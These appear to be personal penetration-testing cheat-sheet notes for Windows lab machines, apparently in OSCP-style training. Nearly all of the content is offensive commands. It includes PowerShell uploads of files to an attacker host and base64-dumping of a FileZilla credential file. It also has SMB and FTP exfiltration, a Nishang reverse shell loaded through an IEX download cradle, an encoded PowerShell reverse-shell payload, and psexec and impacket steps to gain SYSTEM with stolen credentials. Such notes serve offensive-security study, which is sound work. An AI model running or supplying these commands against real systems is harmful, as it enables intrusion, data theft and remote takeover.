 
[+]	Uploading

-   C:\Users\Offsec> powershell (New-Object System.Net.WebClient).UploadFile('http://10.11.0.4/upload.php', 'important.docx')

-	[Convert]::ToBase64String((Get-Content -path "C:\Users\divine\AppData\Roaming\FileZilla\filezilla.xml" -Encoding byte))

-	kali `[sudo imapacket-smbserver -smb2support share -username offsec -password offsec]`
-	windows `[copy somethig.zip \\$KALI-IP\share\]`
--------------------------------------------------------------------------
-	kali `python -m pyftplib -p 21 --write`
-	windows `ftp 10.10.10.15 ; anonymous:anonymous; put abc.zip`
##	Reverse Shell 

[+]	World Writable Directories

-	C:\Windows\system32\spool\drivers\color\
-	

###	`Invoke-PowerShellTcp.ps1`	[/opt/webshell/nishang/Shells/Invoke-PowerShellTcp.ps1]
-	[Edit it and add the below line at last]
-   `Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.32 -Port 1234`
-   Start the python server and server Invoke-PowerShellTcp.ps1
-	IEX(New-Object Net.WebClient).downloadString('http://10.10.14.32/Invoke-PowerShellTcp.ps1')

###	Powershell base64 payload	[https://gist.github.com/tothi/ab288fb523a4b32b51a53e542d40fe58]

-	cd /PDATA/offsec-prep/Windows-PrevEsc-Tools

-	└─# python powershell_b64shell.py 192.168.119.195 80

```
powershell -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQA5ADIALgAxADYAOAAuADEAMQA5AC4AMQA5ADUAIgAsADgAMAApADsAJABzAHQAcgBlAGEAbQAgAD0AIAAkAGMAbABpAGUAbgB0AC4ARwBlAHQAUw
... 
```
-	execute it directly from powershell and get the shell

=================================================================
[!] BUt not showing as `nt/authority system`

>   psexec.exe -i -s cmd.exe    [OR-you-can-run-nc.exe-with-psexec]

>   We are `nt/authority system`


##	Having creds

>	impacket scripts

-	impacket-psexec svcorp.com/nina:ThisIsTheUsersPassword14@10.11.1.22